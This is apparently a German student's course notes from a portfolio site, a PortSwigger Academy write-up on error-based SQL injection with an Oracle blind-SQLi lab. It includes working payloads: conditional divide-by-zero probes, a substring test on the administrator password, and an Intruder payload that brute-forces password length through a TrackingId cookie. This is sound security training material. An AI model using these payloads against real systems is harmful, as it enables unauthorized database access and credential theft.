

repository: IamNico42/portfolio · page: studium/Cyber-Security Praxissemester/Portswigger-Academy/SQLi/5. Error-Based SQL Injection/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/PSS
---
## Was ist Error-Based SQL-Injection

Wie der Name schon sagt, anhand von Fehlermeldungen lässt sich diverses Verhalten zwischen App und Datenbank nachvollziehen und ggf. ausnutzen

- Man provoziert einen DB-Fehler **nur dann**, wenn eine getestete Bedingung zutrifft
	- Man verpackt die Bedingung in eine Ausdrucksform die bei True einen Fehler verursacht(z. B. Division durch Null)

Das könnte man dann wie folgt aufbauen:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Hier sehen wir das Ergebnis wenn unser Input false ist![[ERROR_BASED_SQLI1.png]]Hier sehen wir das Ergebnis wenn unser Input true ist![[ERROR_BASED_SQLI2.png]]

In diesem Fall benutzen wir den 'CASE' Aufruf

- In dem ersten Fall evaluieren wir zu a weil Ergebnis false
- In dem zweiten Fall evaluieren wir zu Error weil macht `1/0` und wir können nicht durch 0 teilen

Und dann kann man Anfragen wie folgt bauen:
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Lab: Blind SQL injection with conditional errors(Oracle)

##### Passwortlänge herausfinden -> Im Intruder dann bruteforcen
```sql
TrackingId=EVe4hpFzFe2H0qvD' AND (SELECT CASE WHEN (LENGTH(password) > §20§) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--;
```
